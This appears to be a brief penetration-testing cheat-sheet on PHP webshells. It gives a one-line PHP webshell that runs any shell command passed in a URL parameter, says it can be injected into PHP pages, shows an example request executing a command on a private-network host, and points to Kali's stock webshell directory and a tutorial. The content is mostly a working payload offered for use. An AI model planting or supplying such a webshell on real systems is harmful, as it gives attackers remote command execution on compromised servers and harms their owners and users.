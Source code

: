 # Webshell

## Basic cmd-shell

This code can be injected into pages that use php.
```
<?php system($_GET['cmd']); ?>
```

You can then call then execute the commands like this:

```
http://192.168.1.103/index.php?cmd=pwd
```

## Webshells
You have access to different kinds of webshells on Kali here:
```
/usr/share/webshells
```

http://www.binarytides.com/web-shells-tutorial/
